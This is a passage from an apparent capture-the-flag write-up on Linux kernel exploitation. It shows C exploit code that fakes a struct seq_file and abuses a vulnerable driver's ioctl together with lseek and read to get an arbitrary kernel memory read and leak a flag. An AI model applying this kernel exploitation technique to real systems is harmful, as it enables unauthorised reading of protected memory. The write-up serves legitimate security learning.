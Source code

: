 ```c
```
I found that this was enough to put a fake structure at an offset of `-0x42e000` from the leaked `private_data` pointer.

### Leaking memory

My plan for the arbitrary read was to craft a fake `struct seq_file` with the `buf` pointing to the address where the flag was located in memory and then to use the `seq_read` function to read the flag into user space.

In order to do that, I had to avoid any of the `ops` functions from being invoked as that would just crash.
And I found this part of the `seq_read_iter` function (called by `seq_read` to actually do the reading) which avoids the `ops` functions.
```c
    /*
     * if request is to read from zero offset, reset iterator to first
     * record as it might have been already advanced by previous requests
     */
    if (iocb->ki_pos == 0) {                     // <------- HAVE TO AVOID THIS
        m->index = 0;
        m->count = 0;
    }
...
    // something left in the buffer - copy it out first
    if (m->count) {                             // <------- OTHERWISE THIS BRANCH WILL NOT BE TAKEN
        n = copy_to_iter(m->buf + m->from, m->count, iter);
        m->count -= n;
        m->from += n;
        copied += n;
        if (m->count)	// hadn't managed to copy everything
            goto Done;
```

I found that I just needed to update my fake `struct seq_file` with the following data:
```c
  fake_seq.buf = (void *)flag_addr;
  fake_seq.from = 0;
  fake_seq.count = 0x1000;
  fake_seq.size = 0x1000;
  fake_seq.read_pos = 1;
```

And combined with an lseek, I could trigger the branch that executes the `goto Done;` thus avoiding any of the `ops` functions.
```c
  // leak_addr comes from the CMD_READ ioctl
  uint64_t leak_page = leak_addr & ~0xfff;
  uint64_t offset = 0x42e000;
  uint64_t fake_seq_addr = leak_page - offset;

  request.val = fake_seq_addr;

  printf("Overwriting private_data with %p\n", (void *)request.val);
  if ( ioctl(vuln_fd, CMD_WRITE, &request) < 0) {
    perror("ioctl");
    return 1;
  }

  char flag_buf[0x100] = {0};
  lseek(fd, 1, SEEK_SET);
  read(fd, (void *)flag_buf, 0x100);

  printf("FLAG %s\n", flag_buf);
```
